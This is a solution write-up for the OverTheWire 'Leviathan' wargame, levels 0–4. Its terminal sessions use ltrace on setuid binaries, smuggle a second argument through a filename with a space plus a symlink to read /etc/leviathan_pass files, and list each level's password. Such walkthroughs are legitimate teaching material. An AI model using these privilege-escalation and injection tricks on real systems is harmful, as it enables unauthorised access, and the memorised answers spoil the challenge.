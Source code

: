 
## Leviathan

> **Dare you face the lord of the oceans?**

Leviathan is a wargame that has been rescued from the demise of intruded.net, previously hosted on leviathan.intruded.net. Big thanks to adc, morla and reth for their help in resurrecting this game!


What follows below is the original description of leviathan, copied from intruded.net:

```
Summary:
Difficulty:     1/10
Levels:         8
Platform:   Linux/x86
```

Author:
Anders Tonfeldt

Special Thanks:
We would like to thank AstroMonk for coming up with a replacement idea for the last level,
deadfood for finding a leveljump and Coi for finding a non-planned vulnerability.

Description:

This wargame doesn't require any knowledge about programming - just a bit of common
sense and some knowledge about basic *nix commands. We had no idea that it'd be this
hard to make an interesting wargame that wouldn't require programming abilities from 
the players. Hopefully we made an interesting challenge for the new ones.
Leviathan’s levels are called leviathan0, leviathan1, … etc. and can be accessed on leviathan.labs.overthewire.org through SSH on port 2223.

---



### Leviathan Level 0

#### Level Goal

To login to the first level use:
```
Username: leviathan0
Password: leviathan0
```

Data for the levels can be found in the homedirectories. You can look at /etc/leviathan_pass for the various level passwords.

Solution :


```
leviathan0@leviathan:~$ ls -la
total 24
drwxr-xr-x  3 root       root       4096 Oct 29 21:17 .
drwxr-xr-x 10 root       root       4096 Oct 29 21:17 ..
drwxr-x---  2 leviathan1 leviathan0 4096 Oct 29 21:17 .backup
-rw-r--r--  1 root       root        220 May 15  2017 .bash_logout
-rw-r--r--  1 root       root       3526 May 15  2017 .bashrc
-rw-r--r--  1 root       root        675 May 15  2017 .profile
leviathan0@leviathan:~$ cd .backup
leviathan0@leviathan:~/.backup$ ls
bookmarks.html
leviathan0@leviathan:~/.backup$ cat bookmarks.html | grep "password"
<DT><A HREF="http://leviathan.labs.overthewire.org/passwordus.html | This will be fixed later, the password for leviathan1 is rioGegei8m" ADD_DATE="1155384634" LAST_CHARSET="ISO-8859-1" ID="rdf:#$2wIU71">password to leviathan1</A>
leviathan0@leviathan:~/.backup$
```

Credential : `leviathan1:rioGegei8m`

## Leviathan Level 1

#### Level Goal

> There is no information for this level, intentionally.


Solution :

```
leviathan1@leviathan:~$ ltrace ./check
__libc_start_main(0x804853b, 1, 0xffffd794, 0x8048610 <unfinished ...>
printf("password: ")                                                                                                 = 10
getchar(1, 0, 0x65766f6c, 0x646f6700password: test
)                                                                                = 116
getchar(1, 0, 0x65766f6c, 0x646f6700)                                                                                = 101
getchar(1, 0, 0x65766f6c, 0x646f6700)                                                                                = 115
strcmp("tes", "sex")                                                                                                 = 1
puts("Wrong password, Good Bye ..."Wrong password, Good Bye ...
)                                                                                 = 29
+++ exited (status 0) +++
$ cd /etc/leviathan_pass
$ ls
leviathan0  leviathan1  leviathan2  leviathan3  leviathan4  leviathan5  leviathan6  leviathan7
$ cat *
cat: leviathan0: Permission denied
cat: leviathan1: Permission denied
ougahZi8Ta
cat: leviathan3: Permission denied
cat: leviathan4: Permission denied
cat: leviathan5: Permission denied
cat: leviathan6: Permission denied
cat: leviathan7: Permission denied
$

```
Credential : `leviathan2:ougahZi8Ta`


## Leviathan Level 2 → Level 3

#### Level Goal

> There is no information for this level, intentionally.

Solution :

```
leviathan2@leviathan:~$ ltrace ./printfile /etc/leviathan_pass/leviathan2
__libc_start_main(0x804852b, 2, 0xffffd764, 0x8048610 <unfinished ...>
access("/etc/leviathan_pass/leviathan2", 4)                                                                          = 0
snprintf("/bin/cat /etc/leviathan_pass/lev"..., 511, "/bin/cat %s", "/etc/leviathan_pass/leviathan2")                = 39
geteuid()                                                                                                            = 12002
geteuid()                                                                                                            = 12002
setreuid(12002, 12002)                                                                                               = 0
system("/bin/cat /etc/leviathan_pass/lev"...ougahZi8Ta
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                               = 0
+++ exited (status 0) +++
leviathan2@leviathan:~$ ltrace ./printfile /etc/leviathan_pass/leviathan3
__libc_start_main(0x804852b, 2, 0xffffd764, 0x8048610 <unfinished ...>
access("/etc/leviathan_pass/leviathan3", 4)                                                                          = -1
puts("You cant have that file..."You cant have that file...
)                                                                                   = 27
+++ exited (status 1) +++
leviathan2@leviathan:~$ mkdir /tmp/0x48piraj/ && cd /tmp/0x48piraj/
leviathan2@leviathan:/tmp/0x48piraj$ ln -s /etc/leviathan_pass/leviathan3 givemepass
leviathan2@leviathan:/tmp/0x48piraj$ echo "" > "idk givemepass"
leviathan2@leviathan:/tmp/0x48piraj$ /home/leviathan2/printfile "/tmp/0x48piraj/idk givemepass"
/bin/cat: /tmp/0x48piraj/idk: No such file or directory
Ahdiemoo1j
leviathan2@leviathan:/tmp/0x48piraj$
```

Credential : `leviathan3:Ahdiemoo1j`


## Leviathan Level 3 → Level 4

#### Level Goal

> There is no information for this level, intentionally.

```
leviathan3@leviathan:~$ ls
level3
leviathan3@leviathan:~$ ./level3
Enter the password> idk
bzzzzzzzzap. WRONG
leviathan3@leviathan:~$ ltrace ./level3
__libc_start_main(0x8048618, 1, 0xffffd794, 0x80486d0 <unfinished ...>
strcmp("h0no33", "kakaka")                                                                                           = -1
printf("Enter the password> ")                                                                                       = 20
fgets(Enter the password> idk
"idk\n", 256, 0xf7fc55a0)                                                                                      = 0xffffd5a0
strcmp("idk\n", "snlprintf\n")                                                                                       = -1
puts("bzzzzzzzzap. WRONG"bzzzzzzzzap. WRONG
)                                                                                           = 19
+++ exited (status 0) +++
leviathan3@leviathan:~$ ./level3
Enter the password> snlprintf
[You've got shell]!
$ whoami
leviathan4
$ cat /etc/leviathan_pass/leviathan4
vuH0coox6m
$
```
Credential : `leviathan4:vuH0coox6m`

```
leviathan4@leviathan:~$ ls -la
total 24
drwxr-xr-x  3 root root       4096 Oct 29 21:17 .
drwxr-xr-x 10 root root       4096 Oct 29 21:17 ..
-rw-r--r--  1 root root        220 May 15  2017 .bash_logout
-rw-r--r--  1 root root       3526 May 15  2017 .bashrc
-rw-r--r--  1 root root        675 May 15  2017 .profile
dr-xr-x---  2 root leviathan4 4096 Oct 29 21:17 .trash
leviathan4@leviathan:~$ cd .trash
leviathan4@leviathan:~/.trash$ ls -la
total 16
dr-xr-x--- 2 root       leviathan4 4096 Oct 29 21:17 .
drwxr-xr-x 3 root       root       4096 Oct 29 21:17 ..
-r-sr-x--- 1 leviathan5 leviathan4 7352 Oct 29 21:17 bin
leviathan4@leviathan:~/.trash$ ./bin
01010100 01101001 01110100 01101000 00110100 01100011 01101111 01101011 01100101 01101001 00001010
leviathan4@leviathan:~/.trash$ python
Python 2.7.13 (default, Sep 26 2018, 18:42:22)
[GCC 6.3.0 20170516] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import binascii
>>> cipher="01010100 01101001 01110100 01101000 00110100 01100011 01101111 01101011 01100101 01101001 00001010".replace(" ", "")
>>> binascii.unhexlify('%x' % int(cipher, 2))
'Tith4cokei\n'
>>>
```

Credential : `leviathan5:Tith4cokei`
